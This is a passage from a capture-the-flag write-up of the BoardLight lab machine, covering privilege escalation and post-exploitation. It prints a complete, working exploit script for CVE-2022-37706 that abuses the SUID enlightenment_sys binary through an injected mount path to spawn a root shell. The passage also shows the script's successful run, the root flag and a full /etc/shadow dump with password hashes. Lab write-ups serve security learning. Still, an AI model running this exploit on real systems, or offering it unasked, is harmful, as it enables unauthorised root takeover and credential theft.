-rwsr-xr-x 1 root root        14648 Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/modules/cpufreq/linux-gnu-x86_64-0.23.1/freqset
-rwsr-xr-x 1 root root        14648 Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_backlight
-rwsr-xr-x 1 root root        14648 Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_ckpasswd
-rwsr-xr-x 1 root root        26944 Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys
-rwsr-sr-x 1 root root        14488 Apr  8 18:36 /usr/lib/xorg/Xorg.wrap
-rwsr-xr-- 1 root dip        395144 Jul 23  2020 /usr/sbin/pppd
```

## Privilege Escalation to root

A quick search on google showed a `Local Privilege Escalation (LPE)` exploit known as `CVE-2022-37706` which used exactly the binary `enlightenment_sys`.

- [https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit](https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit)

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/BoardLight/serve]
└─$ cat exploit.sh            
#!/bin/bash

echo "CVE-2022-37706"
echo "[*] Trying to find the vulnerable SUID file..."
echo "[*] This may take few seconds..."

file=$(find / -name enlightenment_sys -perm -4000 2>/dev/null | head -1)
if [[ -z ${file} ]]
then
        echo "[-] Couldn't find the vulnerable SUID file..."
        echo "[*] Enlightenment should be installed on your system."
        exit 1
fi

echo "[+] Vulnerable SUID binary found!"
echo "[+] Trying to pop a root shell!"
mkdir -p /tmp/net
mkdir -p "/dev/../tmp/;/tmp/exploit"

echo "/bin/sh" > /tmp/exploit
chmod a+x /tmp/exploit
echo "[+] Enjoy the root shell :)"
${file} /bin/mount -o noexec,nosuid,utf8,nodev,iocharset=utf8,utf8=0,utf8=1,uid=$(id -u), "/dev/../tmp/;/tmp/exploit" /tmp///net
```

We moved the `exploit code` to the box, made it executable and fired it up.

```c
larissa@boardlight:~$ chmod +x exploit.sh
```

```c
larissa@boardlight:~$ ./exploit.sh 
CVE-2022-37706
[*] Trying to find the vulnerable SUID file...
[*] This may take few seconds...
[+] Vulnerable SUID binary found!
[+] Trying to pop a root shell!
[+] Enjoy the root shell :)
mount: /dev/../tmp/: can't find in /etc/fstab.
#
```

## root.txt

```c
# cat /root/root.txt
316437795de5bf4e758e2f479bb59412
```

## Post Exploitation

```c
# cat /etc/shadow
root:$6$h9/xKUsFWX90kjQc$qcBeHXPiRHqbF0NgNxhPiZzYS1DiH4UnQc2kcshKtYEDPbjDe3E5qihEbapIJk8fAxRaj3T7EGReRQYiFIBHO1:19845:0:99999:7:::
daemon:*:18858:0:99999:7:::
bin:*:18858:0:99999:7:::
sys:*:18858:0:99999:7:::
sync:*:18858:0:99999:7:::
games:*:18858:0:99999:7:::
man:*:18858:0:99999:7:::
lp:*:18858:0:99999:7:::
mail:*:18858:0:99999:7:::
news:*:18858:0:99999:7:::
uucp:*:18858:0:99999:7:::
proxy:*:18858:0:99999:7:::
www-data:*:18858:0:99999:7:::
backup:*:18858:0:99999:7:::
list:*:18858:0:99999:7:::
irc:*:18858:0:99999:7:::
gnats:*:18858:0:99999:7:::
nobody:*:18858:0:99999:7:::
systemd-network:*:18858:0:99999:7:::
systemd-resolve:*:18858:0:99999:7:::
systemd-timesync:*:18858:0:99999:7:::
messagebus:*:18858:0:99999:7:::
syslog:*:18858:0:99999:7:::
_apt:*:18858:0:99999:7:::
tss:*:18858:0:99999:7:::
uuidd:*:18858:0:99999:7:::
tcpdump:*:18858:0:99999:7:::
avahi-autoipd:*:18858:0:99999:7:::
usbmux:*:18858:0:99999:7:::
dnsmasq:*:18858:0:99999:7:::
cups-pk-helper:*:18858:0:99999:7:::
speech-dispatcher:!:18858:0:99999:7:::
avahi:*:18858:0:99999:7:::
kernoops:*:18858:0:99999:7:::
saned:*:18858:0:99999:7:::
hplip:*:18858:0:99999:7:::
whoopsie:*:18858:0:99999:7:::
colord:*:18858:0:99999:7:::
geoclue:*:18858:0:99999:7:::
pulse:*:18858:0:99999:7:::
gdm:*:18858:0:99999:7:::
sssd:*:18858:0:99999:7:::
larissa:$6$zNTCKunWYdACDiCg$m1Ci3x/AkPAUZM/YzNIXd7Ou89u/hMPPRAboFhbbevXu30s2PNtXcUvO3K1IwKIyxh.UKsonvBxKzDkedo7cw0:19860:0:99999:7:::
systemd-coredump:!!:19617::::::
mysql:!:19617:0:99999:7:::
fwupd-refresh:*:19617:0:99999:7:::
sshd:*:19845:0:99999:7:::
_laurel:!:19860::::::
```

